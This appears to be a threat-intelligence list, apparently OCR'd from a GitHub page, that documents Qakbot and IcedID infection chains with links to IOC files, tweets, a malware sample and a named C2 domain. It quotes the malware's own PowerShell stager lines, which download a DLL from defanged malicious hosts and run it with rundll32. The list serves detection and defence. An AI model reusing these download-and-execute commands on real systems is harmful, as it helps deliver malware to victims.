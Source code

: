 IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB24_19.04.2023.txt


### .one > .img > .wsf > ps > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB22 - .one > .img > .wsf > ps > .dll
https://twitter.com/Cryptolaemus1/status/1643614470164340736

#Qakbot - BB22 - .pdf > .zip > .wsf > ps > .dll    

wscript AprilDetails.wsf

powershell $spear = ("https://kmphi.]com/FWovmB/8oZ0BOV5HqEX")

foreach ($banter in $spear) {try {wget $banter -O $env:TEMP\Lownesses

rundll32 $env:TEMP\Lownesses,X555

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB22_05.04.2023.txt


### url > .js > ps > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB33 - url > .js > ps > .dll
https://twitter.com/Cryptolaemus1/status/1671489179262369792

#Qakbot - BB33 - url > .js > ps > .dll

wscript Ix.js

powershell -encodedcommand $N = "http://151.236.14.]60/c1oHe/q9cRd2n0"

md C:\ProgramData\SNWSlycop

iwr $Brunt -O C:\ProgramData\SNWSlycop\joind.dll

rundll32 C:\ProgramData\SNWSlycop\joind.dll

IOC's
https://github.com/pr0xylife/Qakb


### Thread-hijacked email -> PDF Attachment -> payload download -> Password-Protected Zip -> ISO -> LNK -> CMD -> DLL


Thread-hijacked email -> PDF Attachment -> payload download -> Password-Protected Zip -> ISO -> LNK -> CMD -> DLL c2: ebothlips\.com
https://twitter.com/k3dg3/status/1612860949773389835

Today's #IcedID "1421378695" dropped via PDFs with payloads hosted on firebasestorage\.googleapis\.com.*

Thread-hijacked email -> PDF Attachment -> payload download -> Password-Protected Zip -> ISO -> LNK -> CMD -> DLL
c2: ebothlips\.com

https://bazaar.abuse.ch/sample/1796aef0940e800bcb2556782f92a7874422bbdfdda24e6658e43db4b0916850/
